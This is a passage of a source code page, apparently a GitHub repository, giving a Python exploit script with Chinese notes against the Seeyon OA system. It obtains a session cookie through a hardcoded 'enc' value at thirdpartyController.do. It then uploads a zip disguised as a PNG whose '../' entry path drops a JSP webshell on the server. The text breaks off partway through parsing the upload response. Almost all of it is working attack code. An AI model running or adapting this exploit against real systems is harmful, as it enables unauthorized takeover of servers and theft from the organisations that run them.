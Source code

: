 ```
layout.xml  必须存在否则在利用解压漏洞时会解压失败空内容即可
12345678.txt  可是任意名称与内容 想上传webshell替换成webshell内容与jsp后缀即可
```

```
# coding:utf-8
import time
import requests
import re
import sys
import random
import zipfile


la = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0',
           'Content-Type': 'application/x-www-form-urlencoded'}

def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../'+webshell_name1

def file_zip():
    shell = 'test'   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr('layout.xml', "")
    zf.writestr(webshell_name2, shell)


def Seeyon_Getshell(urllist):

    url = urllist+'/seeyon/thirdpartyController.do'
    post = "method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04+LjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1"
    response = requests.post(url=url, data=post, headers=la)
    if response and response.status_code == 200 and 'set-cookie' in str(response.headers).lower():
        cookie = response.cookies
        cookies = requests.utils.dict_from_cookiejar(cookie)
        jsessionid = cookies['JSESSIONID']
        file_zip()
        print( '获取cookie成功---->> '+jsessionid)
        fileurl = urllist+'/seeyon/fileUpload.do?method=processUpload&maxSize='
        headersfile = {'Cookie': "JSESSIONID=%s" % jsessionid}
        post = {'callMethod': 'resizeLayout', 'firstSave': "true", 'takeOver': "false", "type": '0',
                'isEncrypt': "0"}
        file = [('file1', ('test.png', open(mm+'.zip', 'rb'), 'image/png'))]
        filego = requests.post(url=fileurl,data=post,files=file, headers=headersfile)
        time.sleep(2)
    else:
        print('获取cookie失败')
        exit()
    if filego.text:
        fileid1 = re.findall('fileurls=fileurls\+","\+\'(.+)\'', filego.text, re.I)
        fileid = fileid1[0]
        if len(fileid1) == 0:
```